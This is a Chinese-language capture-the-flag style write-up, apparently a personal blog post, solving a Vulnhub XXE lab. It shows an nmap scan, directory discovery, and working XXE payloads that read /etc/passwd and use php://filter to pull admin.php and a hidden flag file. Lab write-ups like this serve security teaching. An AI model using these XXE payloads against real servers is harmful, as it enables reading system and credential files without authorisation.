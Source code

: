 ```yaml
---
layout: post
title: Vulnhub靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口。

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页。

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，admin.php。

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面。

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- admin.php在/xxe/目录下。ip/xxe/admin.php同样是登录界面。

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- 查看源码，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)

![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

- 登录admin.php。

![xxe-11](https://cijian00.github.io/img/Vulnhub/XXE/11.png)

- 点击链接，跳转至/xxe/flagmeout.php。
- 显示是空白页，查看页面源代码。

![xxe-12](https://cijian00.github.io/img/Vulnhub/XXE/12.png)

- 先进行base32解密，再进行base64解密。
- 可得/etc/.flag.php。

![xxe-13](https://cijian00.github.io/img/Vulnhub/XXE/13.png)

- 查看/etc/.flag.php。

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/.flag.php">
]>
<root><name>&admin;</name><password>1</password></root>
```
- base64解密之后看着像无特征码的PHP Webshell。

![xxe-14](https://cijian00.github.io/img/Vulnhub/XXE/14.png)

- 保存至本地环境，命名为flag.php。前后分别添加上```<?php   ?>```。
- 再访问flag.php可得flag。

![xxe-15](https://cijian00.github.io/img/Vulnhub/XXE/15.png)
